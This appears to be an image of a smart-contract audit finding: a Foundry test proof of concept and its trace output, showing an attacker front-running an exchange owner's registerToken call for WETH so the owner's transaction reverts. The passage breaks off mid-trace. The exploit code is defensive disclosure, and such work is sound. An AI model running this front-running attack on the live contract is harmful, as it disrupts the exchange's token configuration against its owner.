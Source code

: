 ```
        exchangeV3 = IExchangeV3(ADDRESS_CONTRACT_ExchangeV3);
    }

    function testYttriumzzDemo() public {
        // This POC assumes this scenario:
        //   The Owner wants to add WETH to the `reservedTokens` list and call the `registerToken` function.
        //   The Attacker checked that the mempool contained this transaction and frount-run call the `registerToken` function,
        //   causing WETH to be added to the `normalTokens` list.
        // 
        // In order to simplify the POC:
        //   The Attacker is executed first, instead of providing a high gas price to let the node execute in advance.
        //
        // Results:
        //   WETH is added to the `normalTokens` list, and the Owner's transaction execution fails.

        vm.startPrank(ADDRESS_USER_Attacker);
        uint32 tokenID = exchangeV3.registerToken(ADDRESS_CONTRACT_WETH);
        vm.stopPrank();

        vm.startPrank(ADDRESS_USER_ExchangeV3Owner);
        vm.expectRevert("TOKEN_ALREADY_EXIST");
        exchangeV3.registerToken(ADDRESS_CONTRACT_WETH);
        vm.stopPrank();

        assertTrue(tokenID > 32);
        console.log("tokenID: %s", tokenID);
    }
}
```
Output:
```
$ forge test --match-test testYttriumzzDemo -vvvv
[⠰] Compiling...
[⠑] Compiling 1 files with 0.8.19
[⠘] Solc 0.8.19 finished in 1.22s
Compiler run successful!

Running 1 test for test/YttriumzzDemo.sol:YttriumzzDemo
[PASS] testYttriumzzDemo() (gas: 138975)
Logs:
  tokenID: 60

Traces:
  [138975] YttriumzzDemo::testYttriumzzDemo()
    ├─ [0] VM::startPrank(0x000000000000000000000000000000000000AAce)
    │   └─ ← ()
    ├─ [102352] 0x9C07A72177c5A05410cA338823e790876E79D73B::registerToken(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2)
    │   ├─ [97353] 0xc56C1dfE64D21A345E3A3C715FFcA1c6450b964b::registerToken(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2) [delegatecall]
    │   │   ├─ [89300] 0x2Bf7021a3Aa041e1a8a5082DB720d0202C70A3aE::5ac78334(0000000000000000000000000000000000000000000000000000000000000003000000000000000000000000c02aaa39b223fe8d0a0e5c4f27ead9083c756cc20000000000000000000000000000000000000000000000000000000000000000) [delegatecall]
    │   │   │   ├─ [5341] 0x54D7aE423Edb07282645e740C046B9373970a168::isTokenSupported(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2) [staticcall]
    │   │   │   │   ├─ [321] 0x8CCc06C4C3B2b06616EeE1B62F558f5b9C08f973::isTokenSupported(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2) [delegatecall]
    │   │   │   │   │   └─ ← 0x0000000000000000000000000000000000000000000000000000000000000001
    │   │   │   │   └─ ← 0x0000000000000000000000000000000000000000000000000000000000000001
    │   │   │   ├─ emit TokenRegistered(: 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, : 60)
```